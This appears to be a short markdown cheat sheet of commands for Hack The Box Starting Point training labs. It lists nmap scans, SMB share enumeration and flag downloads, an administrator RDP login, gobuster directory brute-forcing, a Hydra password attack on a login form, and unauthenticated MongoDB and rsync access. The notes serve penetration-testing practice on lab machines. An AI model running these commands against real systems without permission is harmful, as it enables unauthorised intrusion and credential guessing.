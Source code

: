 # HTB Notes

## Starting Point Tier 0

Nmap basic list
`nmap -v1 -Pn 123.456.789.0`

SMB List Shares
`smbclient --list 10.129.49.171`

SMB List Folders
`smbmap -u root -p "" -H 10.129.49.171 -r`

SMB Folder Content
`smbmap -u root -p "" -H 10.129.49.171 -R WorkShares`

SMB Download files
`smbmap -u root -p "" -H 10.129.49.171 --download 'WorkShares\James.P\flag.txt'`

### Explosion

Unix RDP Connection
`xfreerdp /v:10.1.1.1 /u:administrator`

### Preignition

GoBuster find files / directories on Web Sever ending in PHP using Wordlist
`gobuster dir --url 10.129.38.239 --wordlist /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php`

Hydra Login Form attack using HTTP Form Post
`hydra -l admin -P Passwords/2020-200_most_used_passwords.txt 10.129.116.45 http-post-form "/admin.php:username=^USER^&password=^PASS^:Wrong" -v`

### Mongod

Nmap scan all ports fast (does not work in nmapgui)
`nmap -p- --min-rate=1000 -sV {target_IP}`

MongoDB Shell Connect
`mongosh {target_IP}`

Mongo List Databases
`show databases`

Mongo Show Collection Content
`db.{collection_name}.find().pretty()`

### Synced

Rsync list shares
`rsync --list-only {target_IP}::`

Rsync copy file to local
`rsync 10.129.228.37::public/flag.txt ./flag.txt

`

## Starting Point Tier 1

### Appointment

